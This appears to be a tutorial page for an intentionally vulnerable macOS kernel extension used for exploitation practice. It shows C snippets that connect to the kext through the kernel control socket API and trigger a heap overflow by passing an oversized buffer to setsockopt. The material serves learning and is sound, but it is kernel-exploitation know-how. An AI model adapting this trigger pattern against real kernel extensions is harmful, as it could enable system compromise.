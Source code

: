 # Lets now trigger a heap overflow

- The vulnerable kext uses `kernel control API`. The kernel control API is a bidirectional communication mechanism between a user space application and a KEXT.
- XNU defines `PF_SYSTEM` domain to provide a way for applications to configure and control KEXTs.
- The `PF_SYSTEM` domain, in turn, supports two protocols, `SYSPROTO_CONTROL` and `SYSPROTO_EVENT`.

We use PF_SYSTEM and SYSPROTO_CONTROL to connect to the vulnerable kext. 
`int sock = socket(PF_SYSTEM, SOCK_DGRAM, SYSPROTO_CONTROL);`

We need the control id of the kext assigned by the kernel. We can fetch it using ioctl on the `sock`

```
	struct ctl_info info;
	memset(&info, 0, sizeof(info));
	strncpy(info.ctl_name, CONTROL_NAME, sizeof(info.ctl_name));

	int err = ioctl(sock, CTLIOCGINFO, &info);
    if (err)
	{
		perror("Could not get ID for kernel control.\n");
		exit(-1);
	}

```

We use the `info.ctl_id` kernel control id and create a `struct sockaddr_ctl` and connect to the sock:

```
	struct sockaddr_ctl addr;
	
	addr.sc_len 	= sizeof(addr);
	addr.sc_family  = AF_SYSTEM;
	addr.ss_sysaddr = AF_SYS_CONTROL;
	addr.sc_id 		= info.ctl_id;
	addr.sc_unit 	= 0; /* allocate dynamically */

	int err = connect(sock, (struct sockaddr*) &addr, sizeof(addr));
```

We can now trigger one of the defined vulnerabilitiesby  calling `setsockopt` on the above `sock`
```int setsockopt(int socket, int level, int option_name, const void *option_value, socklen_t option_len);```


Example to trigger heap overflow, we set the opt to HEAP_OVERFLOW, pass in the user data to kernel inside data

~~~
size_t size = 1024;
char address[size];

memset(address, 0x42, size);

setsockopt(ctrl, SYSPROTO_CONTROL, HEAP_OVERFLOW, address, size);
~~~

Complete code is available at: https://github.com/ant4g0nist/Vulnerable-Kext/tree/main/client/
